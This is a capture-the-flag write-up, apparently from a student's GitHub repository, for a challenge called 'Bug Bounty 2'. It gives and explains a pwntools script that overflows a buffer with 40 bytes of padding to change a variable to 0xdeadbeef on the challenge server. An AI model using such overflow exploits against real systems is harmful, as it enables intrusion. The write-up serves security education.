



[Source code](./handout/Bug_Bounty_2)

The interaction with the challenge is the same as the previous. But here according to the source code, in order to get the flag we need to change the `number` variable from `0xcafebabe` into `0xdeadbeef`

With the previous script slightly modify and with the help of pwntools we can achieve this and get the flag

```python
from pwn import *

# Connect to the remote instance
conn = remote('chal.sigpwny.com', 1344)

# Receive the prompt
conn.recvuntil(b'> ')

# Write your exploit here!
exploit = b'A'*40 + p64(0xdeadbeef, "little")

# Display the exploit just for the view
log.info(f"Sending {exploit}")

# Send the payload
conn.sendline(exploit)

# Drop to an interactive shell to interact with the process
conn.interactive()
```



What have we done with this script ?  
Well we overwrote the `name` with A's and the pwntools python package helped us by `packing` the `0xdeadbeef` in 64 bits, little-endian with the `p64` function of pwntools.  
The question here is how did we got to know that the architecture is 64-bits in little-endian ?  
With the checksec command (who is part of the pwntools package) we can get this information.



[Bug Bounty 3](./Bug_Bounty_3.md)
